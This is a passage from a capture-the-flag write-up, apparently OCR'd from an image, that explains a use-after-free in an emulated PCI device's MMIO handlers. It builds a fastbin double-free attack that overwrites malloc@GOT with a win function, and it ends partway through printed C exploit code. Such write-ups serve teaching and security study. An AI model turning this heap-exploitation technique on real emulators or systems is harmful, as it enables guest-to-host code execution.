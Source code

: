 0. `mmio_buffer[i] = malloc(8 * val)`
1. `free(mmio_buffer[i])`
2. `memcpy(mmio_buffer[i] + x, &val, size)`

Again, i and x can be controlled by the address similar to in the read function.

Looking at this, we can see a simple UAF vulnerability, which means we can modify the data in the freed chunks
to get a fastbin attack.

If we can find some 64-bit value in the binary which is a valid fastbin size ([0x20, 0x80]), we can use that as a fake chunk
and get malloc to return that address. This means, that if we find a fastbin size around the pointers array, we can set some `mmio_buffer[j]`
to that address and then use the `mmio_buffer[j] +/- x` write functionality to write any arbitrary address to the pointers array.

The address of the `mmio_buffer` is `0x1317940`, and we can find a nice candidate for a fake chunk with size `0x66` at `0x1317a02`.
Now if we do malloc(0x58) 2-3 times so that it requests from the 0x60 fastbin, it will return the address of the fake chunk.
From here, we can calcualte the offset to pointers[0] and write the address of `malloc@GOT` to that, and then write to pointers[0] to overwrite
malloc with win_function. This is the final exploit code that works in the local environment.

```c
#include <stdint.h>
#include <unistd.h>
#include <stdio.h>
#include <fcntl.h>
#include <sys/mman.h>

void* iomem;

void iowrite(uint32_t offset, uint32_t value) {
  *((uint32_t*)(iomem + offset)) = value;
}

void iowrite_64(uint32_t offset, uint64_t value) {
  *((uint64_t*)(iomem + offset)) = value;
}

// i == 0xF => mallocs all indexes
void driver_malloc(uint8_t i, uint32_t multiplier) {
  iowrite(0x000000 | (((uint32_t)i) << 16), multiplier);
}

void driver_free(uint8_t i) {
  iowrite(0x100000 | (((uint32_t)i) << 16), 0);
}

void driver_write64(uint8_t i, uint16_t off, uint64_t value) {
  iowrite_64(0x200000 | (((uint32_t)i) << 16) | off, value);
}

int main() {
  int fd = open("/sys/devices/pci0000:00/0000:00:04.0/resource0", O_RDWR | O_SYNC);
  iomem = mmap(0, 0x1000000, PROT_READ | PROT_WRITE, MAP_SHARED, fd, 0);
  printf("iomem @ %p\n", iomem);

  driver_malloc(0x0, 11);
  driver_malloc(0x1, 11);
  driver_free(0x0);
  driver_free(0x1);
  driver_free(0x0);
  driver_malloc(0x0, 11);
```